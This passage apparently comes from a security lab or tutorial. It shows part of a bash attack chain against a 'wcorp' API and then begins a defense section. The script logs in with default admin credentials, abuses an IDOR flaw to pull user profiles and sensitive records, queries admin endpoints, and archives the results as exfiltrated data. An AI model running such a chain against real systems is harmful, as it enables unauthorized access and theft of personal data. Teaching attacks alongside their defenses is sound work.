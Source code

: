 ```bash
# Login with default credentials
TOKEN=$(curl -s -X POST $TARGET/wcorp/api/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"admin123"}' | jq -r '.token')

echo "[*] Token obtained: $TOKEN"

echo "[*] Stage 4: IDOR Exploitation"
# Access all user profiles
for id in {1..10}; do
  curl -s -H "Authorization: Bearer $TOKEN" \
    $TARGET/wcorp/api/user/profile/$id >> all_profiles.json
done

echo "[*] Stage 5: Sensitive Data Extraction"
# Extract sensitive information
for id in {1..10}; do
  curl -s -H "Authorization: Bearer $TOKEN" \
    $TARGET/wcorp/api/user/sensitive/$id >> sensitive.json
done

echo "[*] Stage 6: Admin Access"
# Access admin endpoints
curl -s -H "Authorization: Bearer $TOKEN" \
  $TARGET/wcorp/api/admin/users > all_users.json

curl -s -H "Authorization: Bearer $TOKEN" \
  $TARGET/wcorp/api/admin/stats > stats.json

echo "[*] Stage 7: Data Exfiltration Complete"
# Compress and exfiltrate
tar -czf exfiltrated_data.tar.gz *.json
echo "[*] Attack chain complete! Data saved to exfiltrated_data.tar.gz"
```

## Defense Strategies

### How to Prevent Each Stage

**1. Reconnaissance Prevention:**
- Remove or restrict access to configuration files
- Disable directory listing
- Remove sensitive comments from code
- Implement proper robots.txt without exposing sensitive paths
- Use security headers to prevent information disclosure

**2. Weaponization Mitigation:**
- Strong password policies
- Multi-factor authentication
- Rate limiting on authentication endpoints
- Input validation and sanitization

